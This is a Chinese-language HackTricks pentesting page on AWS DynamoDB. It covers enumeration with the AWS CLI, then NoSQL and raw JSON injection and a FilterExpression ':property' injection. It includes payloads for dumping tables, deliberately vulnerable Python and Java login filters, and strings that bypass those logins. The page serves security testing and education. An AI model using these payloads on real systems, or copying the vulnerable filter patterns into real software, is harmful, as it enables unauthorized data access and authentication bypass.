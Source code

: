 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### 基本信息

Amazon DynamoDB 被 AWS 提供为一个 **完全托管的无服务器键值 NoSQL 数据库**，旨在支持高性能应用程序，无论其规模如何。该服务确保了强大的功能，包括固有的安全措施、不间断的备份、跨多个区域的自动复制、集成的内存缓存和便捷的数据导出工具。

在 DynamoDB 的上下文中，**创建的是表**，而不是建立传统数据库。每个表都要求指定一个 **分区键**，作为 **表主键** 的一个组成部分。这个分区键，实质上是一个 **哈希值**，在项目检索和数据在不同主机之间的分配中起着关键作用。这种分配对于维护数据库的可扩展性和可用性至关重要。此外，还可以选择添加 **排序键** 以进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用一个 **属于 Amazon DynamoDB 的 KMS 密钥，** 甚至不是至少属于您账户的 AWS 管理密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份与导出到 S3

可以 **安排** 生成 **表备份** 或按 **需** 创建它们。此外，还可以为表启用 **时间点恢复 (PITR)**。时间点恢复为您的 DynamoDB 数据提供连续的 **备份**，持续 **35 天**，以帮助您防止意外的写入或删除操作。

还可以将 **表的数据导出到 S3**，但该表需要启用 **PITR**。

### GUI

有一个用于本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，这些可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### 权限提升

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### 后期利用

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### 持久性

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB 注入

### SQL 注入

有方法可以使用 **SQL 语法** 访问 DynamoDB 数据，因此，典型的 **SQL 注入也是可能的**。

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html
{{#endref}}

### NoSQL 注入

在 DynamoDB 中，可以使用不同的 **条件** 来检索数据，就像在常见的 NoSQL 注入中，如果可以 **链式添加更多条件以检索** 数据，您可能会获得隐藏的数据（或转储整个表）。\
您可以在这里找到 DynamoDB 支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

请注意，如果通过 **`query`** 或 **`scan`** 访问数据，支持 **不同的条件**。

> [!NOTE]
> 实际上，**Query** 操作需要在 **主** 键中指定 **条件 "EQ"（等于）** 才能工作，这使其 **更不容易受到 NoSQL 注入**（并且还使操作非常有限）。

如果您可以 **更改比较** 或添加新的比较，您可以检索更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html
{{#endref}}

### 原始 Json 注入

> [!CAUTION]
> **此漏洞基于已弃用的 dynamodb 扫描过滤器！**

**DynamoDB** 接受 **Json** 对象以 **搜索** 数据。如果您发现可以在发送的 json 对象中进行写入，您可以使数据库转储所有内容。

例如，在请求中注入：
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
攻击者可以注入类似于：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复“EQ”条件，搜索 ID 1000，然后查找所有 Id 字符串大于 0 的数据，这就是全部。

另一个 **使用登录的脆弱示例** 可以是：
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
这将容易受到以下攻击：
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

某些 SDK 允许使用一个字符串来指示要执行的过滤，例如：
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
您需要知道，在DynamoDB中搜索以**替换**属性**值**的**过滤表达式**时，令牌应以**`:`**字符**开始**。这些令牌将在运行时**替换**为实际的**属性值**。

因此，像之前的登录可以通过以下方式绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
